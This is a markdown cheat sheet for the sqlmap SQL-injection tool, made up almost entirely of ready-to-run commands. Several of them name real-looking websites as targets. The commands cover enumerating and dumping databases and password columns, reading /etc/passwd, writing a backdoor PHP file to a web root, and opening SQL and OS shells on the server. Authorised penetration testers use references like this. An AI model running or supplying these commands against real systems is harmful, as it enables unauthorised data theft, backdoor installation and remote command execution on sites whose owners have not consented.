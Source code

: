 SqlMap
======

__URL WRITING__

__Single URL__
```console
sqlmap -u http://signisasia.net/books/view?id=1 --dbs
```

__Request in File___

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r request.txt
```


__Request in File(inject only username parameter)__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r req.txt -p username
```


__Testing a pattern of URL's__

-If we have test for a URL scheme injection like 

```console
http://signisasia.net/books/1/view
http://signisasia.net/books/2/view
http://signisasia.net/books/3/view
```
```console
sqlmap -u http://signisasia.net/books/*/view --dbs
```

__[Post injection Direcltly]__
```console
sqlmap -u http://imranparray.com/login.php --data "username=imx&pass=imx100&submit=Submit" -p username

> --data is the post data send in the request
> -p is the injection point.
```




__Using Cookies__
```console
sqlmap -u http://imranparray.com/welcom.php --cookie="PHPSESSID=adsaasd56454a6s54d54" -u http://imranparray.com/welcome/functionality.php?id=100
```




## Exploitation


__Extract Databases__
```console
-u http://signisasia.net/becomemember.php?id=14 --dbs 	
```
__Extract Tables from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database --tables
```

__Extract Columns of table_name from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name --columns
```

__Dumping Data__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name -C colum1,column2,clumn3 --dump
```





## Speeding Up The process

__Multithreading__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --threads 5
```


__Null-Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --null-connection
```

__HTTP Persistant Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --keep-alive
```

__Output prediction__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 -D database -T user -c users,password --dump --predict-output
```



## File Privileges

__[Checking privilages]__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --privileges
```

__Reading Files from the server__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-read=/etc/passwd
```

__Uploading Files/Shell__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-write=/root/imxx/backdoor.php --file-dest=/var/www/imran.php
```








## Getting Shells


__Sql Shell__

```console
sqlmap -u http://imranparray.com/login.php?id=100 --sql-shell
```

__OS shell__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-shell
```

__Os Command Exe without Shell Upload__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-cmd "uanme -a"
```

__Using Proxy__
```console
sqlmap --proxy="127.0.0.1:8888" -u https://imranparray.com/home.php?id=12 --dbs
```
